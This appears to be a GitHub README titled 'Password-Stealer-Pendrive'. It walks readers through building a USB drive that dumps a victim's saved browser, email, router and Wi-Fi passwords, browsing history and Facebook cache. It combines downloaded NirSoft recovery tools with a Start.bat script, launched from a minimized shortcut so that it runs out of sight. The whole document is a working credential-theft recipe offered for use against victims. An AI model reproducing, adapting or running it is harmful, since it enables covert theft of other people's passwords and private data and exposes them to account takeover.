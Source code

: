 # Password-Stealer-Pendrive


By using this process you can get the victims:

      Browser Downloads
      Browser History
      Browser Saved Passwords
      Facebook Cache
      Wifi History
      Router Passwords
      and others.....

All the process are done for you in Release option!!

You can download it and directly add it to your pendrive.

First of all go to this link https://www.nirsoft.net/password_recovery_tools.html


Then read the instructions and download those softwares
Then extract the .zip file and only save the extraxted files in your pendrive


Then delete:

      Dailupass.exe
      netpass.exe
      x64 (folder)
      
      
      
Then download:

      https://www.nirsoft.net/utils/browsing_history_view.html
      https://www.nirsoft.net/utils/web_browser_downloads_view.html
      https://www.nirsoft.net/utils/process_tcp_summary.html
      https://www.nirsoft.net/utils/router_password_recovery.html
      https://www.nirsoft.net/utils/facebook_cache_viewer.html
    
Your pendrive will look like this after downloading all the above files:

https://i.imgur.com/36rvypD.png



Finally, Create a folder named  Passwords

then create a file named  Start.bat 

Open Start.bat with notepad

Finally paste the code below:

      start BrowserDownloadsView.exe /stext Passwords\BrowserDownloads.txt
      start BrowsingHistoryView.exe /stext Passwords\BrowsingHistory.txt
      start ChromePass.exe /stext Passwords\ChromePass.txt
      start iepv.exe /stext Passwords\iepv.txt
      start mailpv.exe /stext Passwords\mailpv.txt
      start mspass.exe /stext Passwords\mspass.txt
      start PasswordFox.exe /stext Passwords\PasswordFox.txt
      start ProcessTCPSummary.exe /stext Passwords\ProcessTCPSummary.txt
      start PstPassword.exe /stext Passwords\PstPassword.txt
      start RouterPassView.exe /stext Passwords\RouterPassView.txt
      start WebBrowserPassView.exe /stext Passwords\WebBrowserPass.txt
      start WifiHistoryView.exe /stext Passwords\WifiHistoryView.txt
      start FBCacheView.exe /stext Passwords\FBCache.txt

then,

Create a shortcut for  Start.bat  named Start

then,

Right click on the shortcut you created 

Left click on Properties and in  Run  set it to  Minimized 

So you have successfully created a data stealer pendrive.

Your Pendrive should look like this:

https://i.imgur.com/44TPRS2.png

To start the stealing process you just have to click the  Start  shortcut then cmd will be opened in background and will save all the information to your pendrive.
